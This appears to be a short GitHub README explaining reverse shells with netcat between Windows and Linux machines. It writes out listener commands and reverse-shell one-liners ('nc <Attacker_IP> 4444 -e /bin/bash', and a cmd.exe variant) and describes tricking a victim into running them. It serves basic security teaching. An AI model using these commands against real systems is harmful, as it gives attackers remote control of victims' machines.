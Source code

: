 # Reverse-shell-access-using-netcat

I was gain a Reverse shell access uisng netcat in kali linux from windows ...vice versa

# What is Reverse shell access

A reverse shell is a type of connection where a target machine (the victim) initiates a connection back to an attacker’s machine. This allows the attacker to control the target machine remotely by executing commands on it.

# How Reverse Shell Works:

Attacker's Machine: Listens for incoming connections.

Victim's Machine: When compromised, it connects back to the attacker's machine, giving the attacker remote access.

# Two Simple Examples:

# Example 1: Attacker on Windows, Victim on Linux
Attacker (Windows): Sets up a listener using netcat.

Command: nc -lvp 4444
This means: "Listen on port 4444 and wait for a connection."
Victim (Linux): The attacker tricks the victim into running a command.

Command: nc <Attacker_IP> 4444 -e /bin/bash

This means: "Connect to the attacker's IP on port 4444 and give them access to my shell."

Result: The attacker now controls the Linux machine from the Windows machine.

# Example 2: Attacker on Linux, Victim on Windows
Attacker (Linux): Listens for incoming connections.

Command: nc -lvp 5555
Victim (Windows): The attacker gets the victim to run this command.

Command: nc <![highlight](Attacker_IP)> 5555 -e cmd.exe

This means: "Connect to the attacker’s IP on port 5555 and give them access to my Windows command prompt."

Result: The attacker now has control over the Windows machine.

# In Summary:
Reverse Shell: The victim's machine connects back to the attacker's machine.
Purpose: Allows remote control over the victim's machine.
Usage: Often used in penetration testing or by hackers.
